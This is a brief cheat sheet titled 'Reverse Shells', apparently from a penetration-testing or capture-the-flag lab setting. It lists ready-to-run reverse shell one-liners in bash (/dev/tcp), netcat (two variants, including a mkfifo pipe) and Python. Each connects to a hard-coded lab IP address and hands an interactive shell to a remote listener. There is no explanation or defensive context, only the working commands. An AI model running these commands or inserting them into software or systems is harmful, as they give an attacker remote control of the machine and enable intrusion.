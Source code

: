 # Reverse Shells

----------------------------------------------------


### Bash  
`/bin/bash -i 1>&/dev/tcp/10.10.14.5/1234 0<&1`

### Netcat  
`nc -e /bin/bash 10.10.14.5 4444`

### Netcat(2)
`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.13 1234 >/tmp/f`

### Python 
`python -c 'import socket,subprocess,os;s=socket.socket( socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.5",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`
